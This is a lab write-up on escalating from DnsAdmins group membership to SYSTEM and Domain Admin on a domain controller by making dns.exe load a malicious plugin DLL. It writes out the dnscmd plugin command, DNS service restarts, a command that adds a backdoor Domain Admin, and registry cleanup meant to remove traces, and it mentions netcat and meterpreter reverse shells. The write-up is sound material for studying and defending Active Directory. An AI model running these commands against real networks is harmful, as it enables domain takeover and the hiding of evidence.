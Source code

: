 # From DnsAdmins to SYSTEM to Domain Compromise

In this lab I'm trying to get code execution with `SYSTEM` level privileges on a DC that runs a DNS service as originally researched by Shay Ber [here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

The attack relies on a [DLL injection](../../offensive-security/t1055-process-injection/dll-injection.md) into the dns service running as SYSTEM on the DNS server which most of the time is on a Domain Contoller.

## Execution

For the attack to work, we need to have compromised a user that belongs to a `DnsAdmins` group on a domain. Luckily, our user `spotless` already belongs to the said group:

```csharp
 net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-16-55-52.png)

### Building the DLL

As mentioned earlier, we need to build a DNS plugin DLL that we will be injecting into a dns.exe process on a victim DNS server \(DC\). Below is a screenshot of the DLL exported functions that are expected by the dns.exe binary. I have also added a simple system command to invoke a netcat reverse shell once the plugin is initialized and code is executed. 

I then tested the function with rundll32 as shown below, which returned a reverse shell to my attacking machine:

```csharp
rundll32.exe .\dnsprivesc.dll,DnsPluginInitialize
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-30-47.png)

### Abuse DNS with dnscmd

Now that we have the DLL and we checked that it is working, we can ask the victim DC to load our malicious DLL \(from the victim controlled network share on host 10.0.0.2\) next time the service starts \(or the attacker restarts it\):

{% code-tabs %}
{% code-tabs-item title="attacker@victim.memberOfDnsAdmins" %}
```csharp
dnscmd dc01 /config /serverlevelplugindll \\10.0.0.2\tools\dns-priv\dnsprivesc.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

The below looks promising and suggests the request to load our malicious DLL was successful:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-55-59.png)

{% hint style="info" %}
`dnscmd` is a windows utility that allows people with `DnsAdmins` privileges manage the DNS server. The utility can be installed by adding `DNS Server Tools` to your system as shown in the below screengrab.
{% endhint %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-04-48.png)

The below command on the victim further suggests that our request was successful:

```csharp
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-51-21.png)

### Getting code execution with NT\SYSTEM

Now the next time dns service loads/gets restarted, our malicious DLL should be loaded and a reverse shell should be sent back to our attacking system, so let's go and restart the DNS service:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
{% endcode-tabs-item %}
{% endcode-tabs %}

By this point, I should have received a reverse shell, but unfortunately, in my lab, this technique did not work as expected. 

After checking the DNS logs on the `DC01` I saw the below error, suggesting there was something off with my DLL:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-45-51.png)

I tried exporting functions with C++ name mangling and without and although the DLL exports seemed to be OK per CFF Explorer, I was still not able to make the DC load my malicious DLL successfully without corrupting the dns service:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-46-09.png)

{% hint style="warning" %}
Although I was not able to correctly injected the DLL without crashing the dns service in my labs, I still decided to publish these notes, just in case they will be stubmled upon by a reader who had successfully injected a custom DLL and who would like to share their thoughts on what I am overlooking - this would be much appreciated.
{% endhint %}

Since I could not get my malicious DLL injected into the dns.exe successfully, I thought of trying to inject the meterpreter payload using the same technique.

It can be observed, that the DLL gets ineed loaded and we receive a call back attempt from meterpreter, but since the DLL does not conform to the required format \(does not have required exported functions\), the session dies immediately:

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-33-58.png)

Since the above suggests that the the DLL code still got executed, we can try asking the DLL to execute the following on the DC:

```csharp
net group 'domain admins' spotless /add /domain
```

```text
dnsprivesc.dll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-55-35.png)

Before restarting the DNS service and getting our malicious DLL executed, let's make sure our attacking user spotless is not in `Domain Admins` group:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-40.png)

Now if we restart the DNS service which will load our addDA.dll, we see that the user spotless is now a member of the `Domain Admins`:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-52.png)

{% hint style="danger" %}
Warning: at this time the DNS service is probably crashed, so be warned - this is not the stealthiest method and the activity probably will get picked up by defenders real quick unless you can restore the DNS service immediately.
{% endhint %}

Below confirms that the dns service is down, however we can still access the DC C$ share by DC's IP:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-09-23.png)

You could think about scripting/automating the after-attack cleanup and DNS service restoration and include the required code in the same malicious DLL that creates a backdoor user in the first place:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg query \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
sc.exe \\10.0.0.6 stop dns
sc.exe \\10.0.0.6 start dns
//remove any other traces/logs
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-21-55.png)

We can now access the C$ using DC01 computer name:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-24-44.png)

## References

{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}

{% embed url="http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html" %}

{% embed url="https://github.com/dim0x69/dns-exe-persistance" %}

